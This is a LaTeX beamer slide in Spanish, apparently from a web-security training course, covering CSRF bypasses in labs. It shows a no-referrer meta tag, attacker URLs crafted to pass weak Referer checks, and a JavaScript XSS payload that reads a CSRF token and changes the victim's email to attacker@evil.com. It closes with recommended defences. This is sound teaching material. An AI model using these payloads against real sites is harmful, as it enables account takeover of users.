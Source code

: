 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{CSRF --- Bypass del header Referer}
\small
  \begin{itemize}
  \item CSRF
  \item Lab 73 --- Validación Referer solo si existe
  \item Suprimir el Referer con meta tag:
  \item[] \cmdbox{\textless{}meta name=referrer content=no-referrer\textgreater{}}
  \item Lab 74 --- Validación Referer insuficiente
  \item El servidor comprueba que el Referer contiene el dominio legítimo
  \item Bypass (la URL del atacante contiene el dominio como subdirectorio/param):
  \item[] \cmdbox{https://victim.com.attacker.com/exploit\\{}
https://attacker.com/exploit?victim.com}
  \item CSRF + XSS --- evasión total (Labs 49-50)
  \item XSS en el mismo origen permite leer el token CSRF del DOM:
  \item[] \cmdbox{fetch('/settings').then(r=\textgreater{}r.text()).then(html=\textgreater{}\{\\{}
const t = html.match(/name=.csrf. value=.(\textbackslash\{\}w+)/)[1];\\{}
fetch('/email/change',\{method:'POST',credentials:'include',\\{}
body:'csrf='+t+'\&email=attacker@evil.com',\\{}
headers:\{'Content-Type':'application/x-www-form-urlencoded'\}\})\\{}
\});}
  \item Defensa completa recomendada
  \item Token CSRF sincronizado + SameSite=Strict + verificar Origin/Referer
  \end{itemize}
\end{frame}
\end{document}
